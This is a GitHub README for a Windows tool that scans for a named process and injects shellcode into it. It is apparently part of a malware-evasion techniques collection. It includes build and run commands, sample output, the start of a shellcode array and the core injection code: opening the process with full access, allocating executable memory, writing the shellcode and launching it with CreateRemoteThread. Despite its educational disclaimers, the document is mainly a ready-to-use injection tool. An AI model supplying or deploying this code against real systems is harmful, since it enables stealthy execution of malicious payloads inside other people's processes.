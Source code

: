 
# Process Scanner & Shellcode Injector


<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&pause=1000&width=435&lines=This+is+the+application+of+the+RemoteProcessScanner;It+Was+added+in+the+MalwareEvasionTechniques" alt="Typing SVG" /></a>
A powerful Windows tool that scans for a specific process by its name and injects shellcode into it. This tool is primarily designed for educational and malware analysis purposes, demonstrating how process injection works in Windows environments.

**Note**: This tool is intended for use in controlled environments, such as malware research, pentesting, or debugging. It should not be used for malicious purposes.

## Features

- Scans through all running processes on the system.
- Locates a target process by name.
- Injects shellcode into the target process if found.
- Provides feedback and logging throughout the injection process.

## Prerequisites

- **Operating System**: Windows (with administrator privileges)
- **Compiler**: MinGW or Visual Studio (MSVC)
- **Windows SDK**: Required for process enumeration and memory allocation APIs.
- **Knowledge**: Understanding of how process injection works and familiarity with shellcode.

## How It Works

The tool uses the `CreateToolhelp32Snapshot` Windows API to take a snapshot of all running processes. It compares each process name with the target name provided by the user. If a match is found, it opens the process, allocates memory, writes the provided shellcode, and finally creates a thread to execute the shellcode in the context of the target process.

### Injection Workflow:

1. **Process Scanning**: Scans all running processes and identifies the target based on the user-provided process name.
2. **Process Opening**: Opens the target process with `PROCESS_ALL_ACCESS` permissions.
3. **Memory Allocation**: Allocates executable memory inside the target process.
4. **Shellcode Injection**: Writes the shellcode into the allocated memory.
5. **Remote Thread Creation**: Creates a new thread in the target process to execute the shellcode.

## Usage

### Clone the repository:
```bash
git clone https://github.com/your-username/process-scanner-shellcode-injector.git
cd process-scanner-shellcode-injector
```

### Compile the Program:

Using MinGW (`gcc`):
```bash
gcc -o scanner_injector.exe scanner_injector.c -lkernel32 -luser32
```

Using Visual Studio:
- Open the solution in Visual Studio.
- Build the solution (Ctrl + Shift + B).

### Run the Program:
```bash
scanner_injector.exe <ProcessName>
```

Example:
```bash
scanner_injector.exe notepad.exe
```

**Output:**
```bash
Great! We found the process: notepad.exe with PID: 1234
Allocated 512-bytes with PAGE_EXECUTE_READWRITE permissions inside PID 1234
Wrote 512-bytes to process memory
We got a handle on the Thread with ID 5678
```

### Example Shellcode

The program contains example shellcode, defined as `R0m4InShell[]`, which could be modified based on your specific use case. Ensure that the shellcode you inject is appropriate for testing purposes.

```c
unsigned char R0m4InShell[] = {
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
    // ... truncated for brevity
};
```

## Code Overview

The following snippet outlines the core part of the process scanning and shellcode injection:

```c
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
Proc.dwSize = sizeof(PROCESSENTRY32);
if (Process32First(hSnapshot, &Proc)) {
    do {
        if (wcscmp(Proc.szExeFile, target) == 0) {
            PID = Proc.th32ProcessID;
            break;
        }
    } while (Process32Next(hSnapshot, &Proc));
}
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
rBuffer = VirtualAllocEx(hProcess, NULL, sizeof(R0m4InShell), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, rBuffer, R0m4InShell, sizeof(R0m4InShell), NULL);
hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, &TID);
```

## Disclaimer

This tool is for educational purposes only. Misuse of this tool can result in criminal charges. The developer is not responsible for any damage caused by the misuse of this tool. Always have permission to test and inject into processes, especially in production environments.
